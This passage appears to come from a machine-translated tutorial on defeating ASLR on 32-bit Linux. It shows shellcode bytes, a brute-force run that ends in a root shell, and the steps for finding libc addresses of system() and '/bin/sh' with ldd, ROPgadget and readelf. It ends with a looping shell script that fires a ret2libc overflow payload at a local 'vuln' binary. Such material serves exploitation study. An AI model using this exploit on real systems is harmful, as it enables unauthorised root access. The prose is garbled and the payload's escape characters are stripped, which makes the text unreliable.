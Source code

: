 \[Sorry for forgetting to do setuid: /\] As I was not here when the wonderful event happened. I cannot say how long it took. Obviously, this is fate, it is the grace to do a brute force, just run it again to calculate how fast attempts were made and has succeeded in 1487. Blackngel succeeded in the attempt number 22, by doing so in an variable environment, which could employ a large size. Let’s to try a setuid, to see how it would.  

    Intento: 23122
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    # whoami
    root
    # 

In short, it is a matter of “luck” that has taken so long before and now not even a minute late … (also now more agile and makes your computer much faster attempts).  
We got bypassear ASLR, taking advantage of the process does not have NX. To avoid NX should make a ROP, as we have seen. The problem is that in the ROP more factors come into play, but also obviously depends on how you do the ROP. A ROP which was localized in segments where a different `delta` variable is used addresses, decreases the likelihood of success. A ROP where address stack, a library is used (or several, since all libraries are loaded with `mmap()`, so that all share `delta_mmap`) and binary requires an execution converge the three variables, `delta_stack` , `delta_mmap` and `delta_exec`, which is highly unlikely.  
However, it only addresses using the library, can be achieved success, and indeed more likely than a stack, since the stack has a randomizing factor 24, and 16 libraries. Let us see

    $ ldd vuln
     linux-gate.so.1 (0xf77ba000)
     libc.so.6 => /lib32/libc.so.6 (0xf75e0000)
     /lib/ld-linux.so.2 (0xf77bc000)

We have obtained a base address of each valid library, now use it to get directions from `system()` and `/bin/sh` in the libc  
`$ python2 ROPgadget/ROPgadget.py --binary /lib32/libc.so.6 --string /bin/sh --offset 0xf75e0000  
Strings information  
============================================================  
0xf773ccc8 : /bin/sh`

    $ readelf /lib32/libc.so.6 -a | grep system
       246: 00113c60    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
       628: 0003a850    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
      1461: 0003a850    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

`0x0003a850 + 0xf75e0000 = 0xf761a850`  
Perfect. The exploitation cannot be easier. The reward comes in a second  
``$ cat aslr.sh  
#!/bin/sh  
i=0  
while :  
do  
echo "Intento: $i"  
./vuln `perl -e 'print "A"x140 . "x50xa8x61xf7" . "xaaxaaxaaxaa" . "xc8xccx73xf7"'`  
i=$((i+1))  
done``
